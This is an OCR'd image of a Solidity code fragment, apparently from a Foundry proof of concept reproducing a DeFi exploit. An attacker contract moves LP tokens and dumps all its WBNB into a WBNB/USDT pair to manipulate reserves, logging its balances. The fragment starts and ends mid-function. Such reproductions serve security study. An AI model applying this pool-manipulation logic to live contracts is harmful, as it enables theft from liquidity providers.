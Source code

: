 │             address(this)                                                                                                                                                                                                                             │
│         );                                                                                                                                                                                                                                            │
│         IERC20(address(WBNBUSDTv2)).transfer(                                                                                                                                                                                                         │
│             address(WBNBUSDTv2),                                                                                                                                                                                                                      │
│             attackerLPBalance                                                                                                                                                                                                                         │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         emit log_string("Dumping all WBNB for USDT on WBNB+USDT v1 pool..");                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         // Manipulate WBNB - USDT pair                                                                                                                                                                                                                │
│         (uint256 reserve0, uint256 reserve1, ) = WBNBUSDTv1.getReserves();                                                                                                                                                                            │
│         uint256 amountIn = wbnbAmount;                                                                                                                                                                                                                │
│         uint256 amountOut = router.getAmountOut(amountIn, reserve1, reserve0);                                                                                                                                                                        │
│         IERC20(WBNB).transfer(address(WBNBUSDTv1), amountIn);                                                                                                                                                                                         │
│         WBNBUSDTv1.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, WBNB balance of attacker:",                                                                                                                                                                                      │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │